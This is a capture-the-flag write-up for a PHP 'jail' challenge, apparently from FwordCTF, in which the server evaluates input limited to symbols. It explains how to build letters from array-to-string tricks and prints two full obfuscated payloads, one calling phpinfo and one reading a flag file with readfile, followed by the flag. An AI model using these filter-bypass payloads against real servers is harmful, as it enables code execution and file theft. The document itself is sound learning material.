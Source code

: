 # JAILOO WARMUP

We are only allowed to use these characters: $()_[]=+;". 

Webserver evals our input.

We also have a 2000 character cap (found by experimenting)

Found a pretty good resource on this: https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Main idea is to
- use underscores for variables names
- use `$_=([]."")[([]==[])+([]==[])+([]==[])]` to get a lowercase a
- use `$_=([]."")[[].[]+[][[]]]` to get an uppercase A
- use `[varname]++` to increase the ascii value for each of these to get all ascii letters
- take a string and join our characters one by one with `.=`
- for other characters, we can just join then with `.="char"`, assuming it is allowed.

Our first goal is to get phpinfo, to see if there are any disabled functions:

Payload:

```php
$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$____=$___;$____++;$____++;$__.=$____;$__.=$_____;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$__.=$___;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__();
```

We can see that useful functions which would have allowed us to read from the file like file_get_contents are disabled. However, readfile() is not disabled, so we can use that. We can then use printf() to output that to us.

Our final payload will then eval to: printf(readfile("FLAG.PHP"))

Final payload:

```php
$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$__.=$_____;$_____=$___;$_____++;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$_____++;$_____++;$_____++;$__.=$_____;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__.=$___;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____="";$______=$_;$______++;$______++;$______++;$_______=$______;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$________=$_______;$________++;$________++;$_____.=$________;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____.=$_;$_=([]."")[[].[]+[][[]]];$_______="";$________=$_;$________++;$________++;$________++;$________++;$________++;$_______.=$________;$_________=$________;$_________++;$_________++;$_________++;$_________++;$_________++;$_________++;$_______.=$_________;$_______.=$_;$_________=$________;$_________++;$_______.=$_________;$_______.=".";$_________++;$__________=$_________;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$_______.=$__________;$_______.=$_________;$_______.=$__________;$__($_____($_______));
```

#### Flag: FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}


(need to view source to see it)
